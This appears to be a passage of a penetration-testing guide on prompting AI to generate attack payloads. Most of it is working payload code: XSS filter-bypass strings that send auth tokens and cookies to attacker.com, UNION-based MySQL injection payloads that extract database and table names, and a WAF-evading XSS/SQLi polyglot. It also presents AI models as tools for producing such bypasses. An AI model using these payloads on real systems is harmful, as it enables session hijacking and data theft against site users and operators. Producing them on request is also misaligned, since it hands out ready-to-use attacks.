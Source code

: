 ## AI for Payload Generation

### XSS Payload Evolution

Use AI to evolve and customize XSS payloads for specific contexts:

```
Prompt: "I'm testing for XSS in a parameter that's reflected inside a JavaScript string context. The application filters alert(), document.cookie, and <script> tags. Generate 5 potential bypass payloads."
```

Example output:
```javascript
1. ';window['eva'+'l']('fetch("https://attacker.com?c="+btoa(localStorage.getItem("auth")))');'

2. ';(function(){var i=new Image();i.src='https://attacker.com/'+btoa(navigator.userAgent)})();'

3. '`;(()=>{console.log(window.open('https://attacker.com'))})();`

4. ';window.onerror=function(m,u,l,c,e){fetch(`https://attacker.com?e=${e}`)};throw new Error(document.domain);'

5. ';[]["filter"]["constructor"]("fetch`https://attacker.com?d=${document.domain}`")();'
```

### SQL Injection Refinement

Use AI to generate targeted SQL injection payloads based on observed error messages:

```
Prompt: "I'm testing a MySQL database and received this error message: 'You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' ORDER BY id DESC LIMIT 10' at line 1'. Generate UNION-based injection payloads to extract data."
```

Example response:
```sql
1. 1' UNION SELECT 1,2,3,4,5-- -
2. 1' UNION SELECT 1,database(),user(),version(),5-- -
3. 1' UNION SELECT 1,table_name,3,4,5 FROM information_schema.tables WHERE table_schema=database()-- -
```

### Custom Polyglot Payloads

Have AI create context-aware polyglot payloads:

```
Prompt: "Create a polyglot payload that works as both an XSS and an SQLi attack, optimized to bypass WAF detection."
```

Example output:
```
';alert`1`/**/UNION/**/SELECT/**/1,2,3,4,'<svg/onload=fetch("//attacker.com/"+document.cookie)>'-- -
```
